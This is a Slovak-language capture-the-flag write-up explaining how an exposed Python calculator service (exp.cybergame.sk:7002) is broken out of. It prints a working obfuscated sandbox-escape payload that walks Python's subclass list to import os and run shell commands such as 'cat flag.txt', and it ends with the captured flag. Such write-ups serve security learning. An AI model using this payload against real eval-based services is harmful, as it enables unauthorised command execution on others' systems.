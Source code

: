 # Zadanie

EN: You have found an exposed calculator program. It doesn’t seem to do anything useful beyond simple arithmetic operations. The source code is also available on GitHub. Can you make this application more useful? Python version is 3.12.3

Service: exp.cybergame.sk:7002

SK: Našli ste verejne prístupný kalkulačný program. Zdá sa, že nevykonáva nič užitočné okrem jednoduchých aritmetických operácií. Zdrojový kód je tiež dostupný na GitHub-e. Môžete spraviť túto aplikáciu užitočnejšou? Python verzia je 3.12.3

Služba: exp.cybergame.sk:7002

**Súbory:**

- calc.py

## Riešenie

Podľa zdrojového kódu je jasné, že sa jedná o rovnakú, resp. veľmi podobnú úlohu ako [TheCatch2024_WriteUps/2_Miscellaneous/Miscellaneous_5_Snake_game at main · djmajino/TheCatch2024_WriteUps · GitHub](https://github.com/djmajino/TheCatch2024_WriteUps/tree/main/2_Miscellaneous/Miscellaneous_5_Snake_game)

Zadáme teda pre získanie podtriet toto

```
(1).__class__.__base__.__subclasses__()
```

V inom ctf som použil príkaz os.open, ale tu by som rád zadal ľubovoľný shell príkaz, napríklad `ls -la` a pod. Budeme potrebovať 

```
<class 'bytes'> na indexe 5
<class '_frozen_importlib.BuiltinImporter'> na indexe 120
```

aby sme obfuskovane zavolali niečo takéto

```python
import os
system('ls -la')
```

zadáme teda

```python
().__class__.__base__.__subclasses__()[120]().load_module(().__class__.__base__.__subclasses__()[5]([111,115]).decode()).__dict__[().__class__.__base__.__subclasses__()[5]([115,121,115,116,101,109]).decode()](().__class__.__base__.__subclasses__()[5]([108,115,32,45,108,97]).decode())
```

kde 

`__subclasses__()[120]` je `<class '_frozen_importlib.BuiltinImporter'>` a

`__subclasses__()[120]` je `<class 'bytes'>` a 

`([111,115]).decode()` je string `os`

`([115,121,115,116,101,109]).decode()` je string `system` a 

`([108,115,32,45,108,97]).decode()` je string `ls -la`

dostaneme výsledok

```
nc exp.cybergame.sk 7002
>> ().__class__.__base__.__subclasses__()[120]().load_module(().__class__.__base__.__subclasses__()[5]([111,115]).decode()).__dict__[().__class__.__base__.__subclasses__()[5]([115,121,115,116,101,109]).decode()](().__class__.__base__.__subclasses__()[5]([108,115,32,45,108,97]).decode())
total 32
drwxr-xr-x 1 calc calc 4096 Mar 31 20:22 .
drwxr-xr-x 1 root root 4096 Mar 31 20:01 ..
-rw-r--r-- 1 calc calc  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 calc calc 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 calc calc  807 Apr 23  2023 .profile
-rw-rw-r-- 1 root root   38 Mar 31 16:53 flag.txt
-rw-rw-r-- 1 root root 1762 Mar 31 20:22 main.py
```

vlajku mam v aktuálnom pwd, takže modifikuje predošlý príkaz na `cat flag.txt`

```
nc exp.cybergame.sk 7002
>> ().__class__.__base__.__subclasses__()[120]().load_module(().__class__.__base__.__subclasses__()[5]([111,115]).decode()).__dict__[().__class__.__base__.__subclasses__()[5]([115,121,115,116,101,109]).decode()](().__class__.__base__.__subclasses__()[5]([99,97,116,32,102,108,97,103,46,116,120,116]).decode())
SK-CERT{35c3p1ng_py7h0n_15_345y_745k}
```

## Vlajka

```
SK-CERT{35c3p1ng_py7h0n_15_345y_745k}
```
